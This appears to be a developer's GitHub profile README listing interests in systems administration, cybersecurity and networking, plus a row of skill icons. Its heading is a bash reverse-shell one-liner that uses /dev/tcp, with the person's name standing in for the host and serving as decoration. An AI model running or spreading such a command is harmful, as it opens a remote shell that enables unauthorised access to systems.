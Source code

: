  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<table><tr><td valign="top" width="50%">

- 💻 Systems Administration

- 🔐 Cybersecurity

- 🌐 Computer Network Systems




</td><td valign="top" width="50%">
<div align="center">
<img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" align="center" style="width: 100%" />
</div>

</td></tr></table>  
<br/>

<h2> Skills :</h2>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,kubernetes,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode,  " />
  </a>
</p>





